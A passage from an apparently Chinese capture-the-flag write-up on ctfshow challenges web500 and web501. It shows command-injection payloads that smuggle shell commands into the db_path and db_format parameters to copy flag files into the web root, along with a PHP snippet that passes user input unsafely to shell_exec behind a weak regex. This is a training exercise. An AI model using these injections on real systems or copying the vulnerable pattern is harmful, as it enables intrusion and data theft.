 直接**变量覆盖**执行系统命令，payload

`db_path=;cp /f* /var/www/html/a.txt`

访问 /a.txt 得到 flag

<img src=".\图片\Snipaste_2023-08-14_11-04-23.png" alt="Snipaste_2023-08-14_11-04-23" style="zoom:80%;" />

## web501

其它与 web500 一样，多了一个正则匹配，表示要么zip开头、或者匹配到tar、或者sql结尾
开头加个zip即可绕过

```php
if(preg_match('/^zip|tar|sql$/', $db_format)){
		shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.__DIR__.'/../backup/'.date_format(date_create(),'Y-m-d').'.'.$db_format);
```

```php
db_format=zip;cat /f*>/var/www/html/1.txt
db_format=zip;cp /f* /var/www/html/1.txt
```
